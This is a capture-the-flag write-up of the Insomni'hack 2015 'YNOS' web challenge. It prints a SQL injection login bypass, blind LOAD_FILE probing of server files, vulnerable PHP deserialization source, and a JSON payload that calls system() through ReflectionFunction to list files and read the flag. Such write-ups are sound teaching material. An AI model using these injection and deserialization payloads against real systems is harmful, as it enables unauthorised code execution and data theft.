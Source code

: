 # Insomni’hack CTF 2015: YNOS

**Category:** Web
**Points:** 100
**Author:** clZ
**Description:**

> <https://www.youtube.com/watch?v=O2rGTXHvPCQ>
> <a href="http://www.youtube.com/watch?feature=player_embedded&v=O2rGTXHvPCQ" target="_blank"><img src="http://img.youtube.com/vi/O2rGTXHvPCQ/0.jpg" width="240" height="180" border="10" /></a>
> 
> <a href="http://www.youtube.com/watch?feature=player_embedded&v=O2rGTXHvPCQ" target="_blank"><img src="http://img.youtube.com/vi/O2rGTXHvPCQ/0.jpg" border="10" /></a>
>
>
> So many hacking scenes, so little sk1llz…
>
> Apparently [this website](http://ynos.teaser.insomnihack.ch/) likes these stupid films. Pwn them and get the flag which is in a pretty obvious file in the webroot.

## Write-up

<http://ynos.teaser.insomnihack.ch/> presents a login screen. Some random guesses reveal we can log in using the username `admin` with password `admin`. Now we can browse artists, films, and directors. Clicking any of those links triggers an Ajax request to `/INSO.RPC` with some JSON-formatted data:

```bash
$ curl -H 'Content-Type: application/json' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: AWSELB=CFABFDBD1C5BB6C16340B9340EA064028E4DF570D44D64084C319E70EE8D963FBDB0FBB63151BAE16EB9FFA8E0D4123E34E5D7D9AA1E396E163C4F960FFBFF45E6083CB961; session=fe5e3eddfcad1992c22b98cfd8d3e5b3' --data-binary '{"c":{"name":"page"},"a":{"name":"render","params":{"name":"artists"}}}' 'http://ynos.teaser.insomnihack.ch/INSO.RPC'
<fieldset>

<!-- Form Name -->
<legend>Artists</legend>


<ul class="list-group">
  <li class="list-group-item">Jonny Lee Miller</li>
  <li class="list-group-item">Angelina Jolie</li>
  <li class="list-group-item">Jesse Bradford</li>
  <li class="list-group-item">Matthew Lillard</li>
  <li class="list-group-item">Laurence Mason</li>
  <li class="list-group-item">Fisher Stevens</li>
</ul>

</fieldset>
```

### By team "curryboys" - Istvan Chung, Husayn Karimi, William Marshall

This one boils down to a boolean SQL injection attack and a code
execution from a custom PHP deserialization function. I noticed by
using Firebug that the main login screen encodes the username and
password as JSON in a POST request to /INSO.RPC on the server, in the format

```
{"c":{"name":"user"},"a":{"name":"login","params":"username|password"}}
```

Although I didn't know it at the time, it turns out that this is in fact
the serialized format of a `c`lass called `user`, requesting the
`a`ction `login`, a function to be called with the given parameters.
Placing the string `' OR 1=1 --` in for username allowed me to login and
get a session cookie quite easily. However, all this lets us do is make
another call of the form

```
{"c":{"name":"page"},"a":{"name":"render","params":"home"}}
```

(where we can substitute `"artists"`, `"films"`, `"directors"`, or
`"logout"` instead of `"home"`). Unfortunately, none of those pages are
of any use, so I went back to the original SQL injection. The challenge
states that the flag is in an "obvious" file in the webroot, so I
decided that I'd try to find where that was on the server. Since we can
get binary information out of the SQL injection (login failed or
succeeded), we can test for the presence of files using the query

```
LOAD_FILE('/path/to/file') IS NOT NULL
```

I managed to find `/etc/apache2/apache2.conf`, indicating that we were
looking at an Apache 2 server, and through trial and error eventually
found the existence of `/var/www/html/index.php`. Quick testing showed
that `flag.txt`, `flag`, `FLAG`, etc were not present, so I used binary
search to brute-force first the length, and then the contents of
`index.php` and `INSO.RPC` character-by-character, which contain
references to `classes.php` and `functions.php`, which I read out as
well. `functions.php` is reproduced here:

```
<?php

function parseParams($params) {
  if(is_array($params)) {
    return $params;
  }
  else {
    return explode("|",$params);
  }
}

function myDeserialize($object) {
  global $session;
  $class = $object["c"];
  $action = $object["a"];
  $cname = $class["name"];
  $cparams = Array();
  if(isset($class["params"])) {
    $cparams = $class["params"];
  }
  $my_obj = new $cname($cparams);
  $aname = $action["name"];
  $aparams = Array();
  if(isset($action["params"])) {
    $aparams = parseParams($action["params"]);
  }

  call_user_func_array(array($my_obj,$aname),$aparams);

}

?>
```

`myDeserialize` is called by INSO.RPC to handle every incoming request.
It lets us create an instance of any class we desire with any
constructor parameters, and then call any method on that class with any
parameters. We'd like to just call a function like `system`, but
`system` isn't the method of any class. In addition, the classes in
`classes.php` appeared to be useless for locating the flag. However,
the PHP built-in class [`ReflectionFunction`][rf] comes to the rescue, as
its `invoke` method lets us call the function we supply in the
constructor. We can use the serialization vulnerability to make the
call

```
new ReflectionFunction("system").invoke("ls")
```

We serialize this into

```
{"c":{"name":"ReflectionFunction", "params":"system"},
 "a":{"name":"invoke","params":"ls"}}
```

and we get the celebration-inducing output

```
INSO.RPC
___THE_FLAG_IS_IN_HERE___
___THE_FLAG_IS_IN_HERE___.save
artists.php
bootstrap.min.css
bootstrap.min.js
classes.php
directors.php
films.php
functions.php
home.php
index.php
jquery-2.1.1.min.js
login.php
logout.php
preload.php
```

Changing `ls` to `cat ___THE_FLAG_IS_IN_HERE___` gives us our flag:

```
INS{Gotta_L0ve_l33t_serialization_suff!}
```

[rf]: http://php.net/manual/en/class.reflectionfunction.php

## Other write-ups and resources

* none yet
